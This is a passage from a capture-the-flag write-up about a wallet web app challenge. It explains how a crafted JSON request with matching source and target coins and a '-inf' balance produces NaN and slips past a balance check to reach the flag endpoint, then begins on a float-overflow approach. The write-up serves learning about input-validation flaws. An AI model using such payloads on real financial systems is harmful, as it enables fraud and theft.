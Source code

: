 Now, how to make all other coins `0` balance?

#### Unintended Way - Logic flaw in checkers

It doesn't check if `source` and `destination` coin is different

So I can give `cashout` infinite money without subtracting other coins

```json
{
  "sourceCoin": "cashout",
  "targetCoin": "cashout",
  "balance": "-inf"
}
```

It will do something like this in backend

```python
>>> cashout = float(1000)
>>> amount = float('-inf')
>>> cashout -= amount
>>> cashout += amount
>>> cashout
nan
>>> cashout < 1000000000
False
```

Get the flag

```
POST /api/wallet/join_glacier_club HTTP/2
```

![](/assets/obsidian/2f0c0c4535bb4fef2c8daed5e5c493a0.png){:target='_blank'}

#### Intended Way - Float overflow in python app

In order to bypass the check, we can trigger **float overflow** to throw exception, then make `inGlacierClub()` return `True`

**What is float overflow?**

There's a max limit for float value
